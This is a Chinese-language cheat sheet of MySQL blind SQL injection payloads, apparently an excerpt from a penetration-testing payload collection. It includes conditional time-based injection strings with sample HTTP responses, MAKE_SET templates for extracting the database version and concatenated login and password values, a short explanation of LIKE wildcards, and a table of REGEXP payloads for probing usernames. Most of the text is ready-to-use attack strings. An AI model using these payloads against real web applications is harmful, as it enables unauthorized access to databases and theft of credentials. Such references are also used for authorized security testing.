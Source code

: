 
### MySQL盲注使用条件语句

* TRUE: `如果 @@version 以 5 开头`：

    ```sql
    2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
    响应：
    HTTP/1.1 500 Internal Server Error
    ```

* FALSE: `如果 @@version 以 4 开头`：

    ```sql
    2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
    响应：
    HTTP/1.1 200 OK
    ```


### MySQL盲注使用MAKE_SET

```sql
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(version()))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(concat(login,password),POS,1)),1)
```


### MySQL盲注使用LIKE

在MySQL中，`LIKE`运算符可用于在查询中执行模式匹配。该运算符允许使用通配符字符来匹配未知或部分字符串值。这在盲注SQL注入上下文中特别有用，当攻击者不知道数据库中存储的数据的长度或具体内容时。

LIKE中的通配符字符：

* **百分号** (`%`): 该通配符代表零个、一个或多个字符。它可以用于匹配任何字符序列。
* **下划线** (`_`): 该通配符代表一个字符。当您知道数据的结构但不知道特定位置的字符时，它用于更精确的匹配。

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
SELECT * FROM products WHERE product_name LIKE '%user_input%'
```


### MySQL盲注使用REGEXP

盲注SQL注入也可以使用MySQL的`REGEXP`运算符来执行，该运算符用于将字符串与正则表达式进行匹配。当攻击者想要执行比`LIKE`运算符更复杂的模式匹配时，这种技术特别有用。

| 负载 | 描述 |
| --- | --- |
| `' OR (SELECT username FROM users WHERE username REGEXP '^.{8,}$') --` | 检查长度 |
| `' OR (SELECT username FROM users WHERE username REGEXP '[0-9]') --`   | 检查数字的存在 |
| `' OR (SELECT username FROM users WHERE username REGEXP '^a[a-z]') --` | 检查以"a"开头的数据 |
